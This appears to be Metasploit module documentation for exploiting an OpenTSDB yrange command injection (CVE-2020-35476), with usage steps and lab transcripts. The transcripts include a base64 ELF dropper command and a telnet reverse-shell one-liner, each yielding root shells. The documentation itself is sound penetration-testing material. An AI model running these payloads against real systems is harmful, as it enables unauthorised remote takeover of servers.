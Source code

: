 ## Vulnerable Application
This module exploits an unauthenticated command injection vulnerability in the yrange parameter
in OpenTSDB through 2.4.0 (CVE-2020-35476) in order to achieve unauthenticated remote code execution as the root user.

The module first attempts to obtain the OpenTSDB version via the api. If the version is 2.4.0 or lower,
the module performs additional checks to obtain the configured metrics and aggregators.
It then randomly selects one metric and one aggregator and uses those to instruct the target server to plot a graph.
As part of this request, the yrange parameter is set to the payload, which will then be executed by the target if the latter is vulnerable.

This module has been successfully tested against OpenTSDB version 2.3.0.

## Installation Information
OpenTSDB is open source software. Vulnerable releases are available [here](https://github.com/OpenTSDB/opentsdb/releases).
Documentation and installation instructions are available [here](http://opentsdb.net/docs/build/html/index.html).

## Verification Steps
1. Start msfconsole
2. Do: `use exploit/linux/http/opentsdb_yrange_cmd_injection`
3. Do: `set RHOSTS [IP]`
4. Do: `set LHOST [IP]`
5. Do: `set SRVHOST [IP]`
6. Do: `exploit`

## Options
### TARGETURI
The base path to OpenTSDB. The default value is `/`.

## Targets
```
Id  Name
--  ----
0   Automatic (Unix In-Memory)
1   Automatic (Linux Dropper)
```

## Scenarios
### OpenTSDB 2.3.0 - Linux target
```
msf exploit(linux/http/opentsdb_yrange_cmd_injection) > options

Module options (exploit/linux/http/opentsdb_yrange_cmd_injection):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     10.10.1.1        yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT      4242             yes       The target port (TCP)
   SRVHOST    10.10.1.30       yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0
                                         .0 to listen on all addresses.
   SRVPORT    8080             yes       The local port to listen on.
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                     no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI  /                yes       The base path to OpenTSDB
   URIPATH                     no        The URI to use for this exploit (default is random)
   VHOST                       no        HTTP server virtual host


Payload options (linux/x86/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  10.10.1.30       yes       The listen address (an interface may be specified)
   LPORT  1312             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   1   Automatic (Linux Dropper)


msf exploit(linux/http/opentsdb_yrange_cmd_injection) > run

[*] Started reverse TCP handler on 10.10.1.30:1312
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. The target is OpenTSDB version 2.3.0
[*] Identified 25 configured metrics. Using metric MessagePrePublishingEvents.min
[*] Identified 31 configured aggregators. Using aggregator sum
[*] Generated command stager: ["echo -n f0VMRgEBAQAAAAAAAAAAAAIAAwABAAAAVIAECDQAAAAAAAAAAAAAADQAIAABAAAAAAAAAAEAAAAAAAAAAIAECACABAjPAAAASgEAAAcAAAAAEAAAagpeMdv341NDU2oCsGaJ4c2Al1toCgoHJWgCAAUgieFqZlhQUVeJ4UPNgIXAeRlOdD1oogAAAFhqAGoFieMxyc2AhcB5vesnsge5ABAAAInjwesMweMMsH3NgIXAeBBbieGZsmqwA82AhcB4Av/huAEAAAC7AQAAAM2A>>'/tmp/XeJKe.b64' ; ((which base64 >&2 && base64 -d -) || (which base64 >&2 && base64 --decode -) || (which openssl >&2 && openssl enc -d -A -base64 -in /dev/stdin) || (which python >&2 && python -c 'import sys, base64; print base64.standard_b64decode(sys.stdin.read());') || (which perl >&2 && perl -MMIME::Base64 -ne 'print decode_base64($_)')) 2> /dev/null > '/tmp/JIulg' < '/tmp/XeJKe.b64' ; chmod +x '/tmp/JIulg' ; '/tmp/JIulg' & sleep 2 ; rm -f '/tmp/JIulg' ; rm -f '/tmp/XeJKe.b64'"]
[*] Transmitting intermediate stager...(106 bytes)
[*] Sending stage (1017704 bytes) to 10.10.1.1
[*] Command Stager progress - 100.00% done (773/773 bytes)
[*] Meterpreter session 4 opened (10.10.1.30:1312 -> 10.10.1.1:47720) at 2022-11-24 19:27:06 +0000

meterpreter > getuid
Server username: root
```

### OpenTSDB 2.3.0 - Unix target
```
msf exploit(linux/http/opentsdb_yrange_cmd_injection) > options

Module options (exploit/linux/http/opentsdb_yrange_cmd_injection):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     10.10.1.1        yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT      4242             yes       The target port (TCP)
   SRVHOST    10.10.1.30       yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0
                                         .0.0 to listen on all addresses.
   SRVPORT    8080             yes       The local port to listen on.
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                     no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI  /                yes       The base path to OpenTSDB
   URIPATH                     no        The URI to use for this exploit (default is random)
   VHOST                       no        HTTP server virtual host


Payload options (cmd/unix/reverse):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  10.10.1.30       yes       The listen address (an interface may be specified)
   LPORT  1337             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic (Unix In-Memory)


msf exploit(linux/http/opentsdb_yrange_cmd_injection) > run

[+] sh -c '(sleep 3851|telnet 10.10.1.30 1337|while : ; do sh && break; done 2>&1|telnet 10.10.1.30 1337 >/dev/null 2>&1 &)'
[*] Started reverse TCP double handler on 10.10.1.30:1337
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. The target is OpenTSDB version 2.3.0
[*] Identified 25 configured metrics. Using metric MessagePrePublishingEvents.mean_rate
[*] Identified 31 configured aggregators. Using aggregator max
[*] Executing the payload
[*] Accepted the first client connection...
[*] Accepted the second client connection...
[*] Command: echo q08IVzJKPKz8soea;
[*] Writing to socket A
[*] Writing to socket B
[*] Reading from sockets...
[*] Reading from socket B
[*] B: "q08IVzJKPKz8soea\r\n"
[*] Matching...
[*] A is input...
[*] Command shell session 3 opened (10.10.1.30:1337 -> 10.10.1.1:52370) at 2022-11-24 19:24:06 +0000

id
uid=0(root) gid=0(root) groups=0(root)
```
